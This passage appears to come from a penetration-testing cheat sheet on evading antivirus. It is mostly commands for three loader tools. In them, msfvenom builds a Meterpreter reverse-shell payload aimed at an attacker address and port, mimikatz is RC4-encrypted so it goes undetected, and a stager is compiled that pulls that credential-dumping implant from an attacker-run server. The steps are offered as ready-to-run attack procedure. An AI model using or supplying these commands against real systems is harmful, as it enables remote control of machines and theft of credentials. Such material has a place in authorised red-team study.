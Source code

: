 ```
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```



### MeterPwrShell

* [https://github.com/GetRektBoy724/MeterPwrShell/releases](https://github.com/GetRektBoy724/MeterPwrShell/releases)
* [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

```
$ sudo ./MeterPwrShell2Kalix64 -c noaptupdate
```



### stager_libpeconv

- [https://github.com/tothi/stager_libpeconv](https://github.com/tothi/stager_libpeconv)
- [https://github.com/hasherezade/libpeconv](https://github.com/hasherezade/libpeconv)

```
$ git clone --recurse-submodules https://github.com/tothi/stager_libpeconv && cd stager_libpeconv
$ openssl enc -rc4 -in mimikatz.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out mimikatz.rc4
$ make stager IMPLANT_IP=10.10.13.37 IMPLANT_PORT=1337 RC4_KEY=1234567890123456
$ ./socket_binary_server.py mimikatz.rc4 10.10.13.37 1337
Cmd > dist\stager.exe
```
